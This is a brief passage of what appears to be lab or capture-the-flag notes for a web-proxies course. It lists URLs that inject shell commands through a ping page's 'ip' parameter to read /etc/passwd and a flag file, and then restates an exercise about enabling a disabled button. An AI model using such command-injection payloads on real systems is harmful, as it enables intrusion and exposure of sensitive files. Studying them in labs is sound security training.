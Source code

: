 * RCE
  * [http://139.59.191.154:32538/devtools/ping.php?ip=127.0.0.1%26cat+%2Fetc%2Fpasswd%26
    ](http://139.59.191.154:32538/devtools/ping.php?ip=127.0.0.1%26cat+%2Fetc%2Fpasswd%26http://139.59.191.154:32538/devtools/ping.php?ip=127.0.0.1%26cat+%2Fflag.txt%26)
  * [http://139.59.191.154:32538/devtools/ping.php?ip=127.0.0.1%26cat+%2Fflag.txt%26](http://139.59.191.154:32538/devtools/ping.php?ip=127.0.0.1%26cat+%2Fetc%2Fpasswd%26http://139.59.191.154:32538/devtools/ping.php?ip=127.0.0.1%26cat+%2Fflag.txt%26)

<figure><img src=".gitbook/assets/image (233).png" alt=""><figcaption></figcaption></figure>

## Skills Assessment - Using Web Proxies

**The /lucky.php page has a button that appears to be disabled. Try to enable the button, and then click it to get the flag.**

<figure><img src=".gitbook/assets/image (234).png" alt=""><figcaption></figcaption></figure>

